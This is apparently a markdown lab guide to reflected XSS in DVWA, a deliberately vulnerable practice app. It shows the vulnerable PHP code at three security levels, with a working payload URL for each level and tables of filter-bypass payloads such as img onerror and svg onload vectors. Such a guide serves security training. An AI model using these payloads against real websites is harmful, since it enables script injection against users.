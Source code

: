 
# 🧠 DVWA Reflected XSS – Payload Analysis & Exploitation Guide

This guide explains how reflected XSS vulnerabilities appear in DVWA and how payloads behave across **Low**, **Medium**, and **High** security levels.

---

## 🔍 What Is Reflected XSS?

Reflected Cross-Site Scripting occurs when user input is immediately echoed back in the HTTP response and executed by the browser without proper sanitization. Attackers exploit this to inject malicious scripts into a vulnerable parameter, often delivered via URL.

---

## 📜 Vulnerable Code Analysis

### ✅ Low Security

```php
header ("X-XSS-Protection: 0");

if (array_key_exists("name", $_GET) && $_GET['name'] != NULL) {
    $html .= '<pre>Hello ' . $_GET['name'] . '</pre>';
}
```

- ❌ No sanitization.
- ✅ Directly reflects the input into the HTML body.
- ✅ `X-XSS-Protection: 0` disables browser's built-in XSS filter.

### 🧪 Payload:
```
http://localhost/vulnerabilities/xss_r/?name=<script>alert('XSS')</script>
```

### 🔥 Rendered:
```html
<pre>Hello <script>alert('XSS')</script></pre>
```

✅ The browser executes the injected script.

---

### 🛡️ Medium Security

```php
$name = str_replace('<script>', '', $_GET['name']);
```

- ✅ Attempts to filter `<script>`.
- ❌ Does not prevent variations like `<ScRipT>`, event handlers, or image-based injections.

### 🧪 Bypass Payload:
```
http://localhost/vulnerabilities/xss_r/?name=<img src=x onerror=alert(1)>
```

### 🔥 Rendered:
```html
<pre>Hello <img src=x onerror=alert(1)></pre>
```

✅ Image error triggers JavaScript alert.

---

### 🔐 High Security

```php
$name = preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET['name']);
```

- ✅ Regex attempts to block variations of `<script>`.
- ❌ Still vulnerable to non-script tag based vectors (e.g., SVG, IMG with events).

### 🧪 Bypass Payload:
```
http://localhost/vulnerabilities/xss_r/?name=<svg/onload=alert(1)>
```

### 🔥 Rendered:
```html
<pre>Hello <svg/onload=alert(1)></pre>
```

✅ JS executes due to SVG event.

---

## 🧰 XSS Payload Construction Strategy

| Step | Strategy |
|------|----------|
| 🔍 1 | Identify how the input is reflected (HTML context, attribute, JS block). |
| 🧠 2 | Analyze encoding/sanitization attempts in code. |
| ✂️ 3 | Escape out of context if needed (`'>`, `</tag>`). |
| 💉 4 | Inject JS using event handlers or script tags. |
| 🧪 5 | Test variants (e.g., `<img>`, `<svg>`, obfuscated `<script>`). |

---

## 🧪 Filter Bypass Techniques

| Technique | Example |
|----------|---------|
| Event Handler | `<img src=x onerror=alert(1)>` |
| SVG-Based | `<svg/onload=alert(1)>` |
| Encoded Input | `%3Cscript%3Ealert(1)%3C/script%3E` |
| Scriptless XSS | `<body onload=alert(1)>` |
| Mixed-case tags | `<ScRipT>alert(1)</ScRipT>` |

---

## ✅ Summary

- Reflected XSS is dangerous due to its immediate execution.
- Low security has no protection.
- Medium and High attempt weak filters but are still vulnerable.
- Filters can be bypassed using creative payload crafting.

> 🔐 Always validate, sanitize, and encode input based on its context in output!

